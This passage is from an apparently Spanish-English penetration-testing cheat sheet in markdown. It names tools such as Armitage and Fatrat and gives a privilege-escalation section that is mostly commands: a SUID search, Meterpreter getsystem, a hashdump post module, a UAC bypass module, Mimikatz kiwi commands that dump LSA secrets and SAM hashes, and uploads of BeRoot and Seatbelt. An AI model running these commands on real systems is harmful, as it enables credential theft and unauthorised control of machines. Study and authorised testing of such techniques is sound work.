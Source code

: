 -  Armitage (Linux)
    - `service postgresql start`
    - `armitage`

- Ninja Jonin

- Fatrat (crear reverse)


##   Escalate Privileges
- gtfobins: is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems. (https://gtfobins.github.io/)[https://gtfobins.github.io/]


- sudo
```bash
sudo -i
```

- find scret files
```bash
find /myfoder -name "secret.txt" -o -name "*.png"
find /myfolder -type {f/d} -name myfile.txt
```

- getsystem
```bash
    meterpreter> sysinfo
    meterpreter> getsystem -t 1
```

- hashdump
```bash
    meterpreter > `run post/windows/gather/smart_hashdump
```

- bypassuac
```bash
meterpreter > background
[msf]> use /windows/local/bypassuac_foghelper
getuid
```

- SUID
```bash
find / -perm -4000 -ls 2> /dev/null
```

- Mimikatz
```bash
load kiwi
lsa_dump_secrets
lsa_dump_sam
password_change -u user -n hashNTLM -P password
```

- BeRoot
```bash
meterpreter> upload /home/attacker/Desktop/BeRoot/beRoot.exe
meterpreter> shell
 beRoot.exe
 exit
meterpreter> upload /home/attacker/Desktop/Seatbelt.exe
meterpreter> shell
    Seatbelt.exe -group=system
```
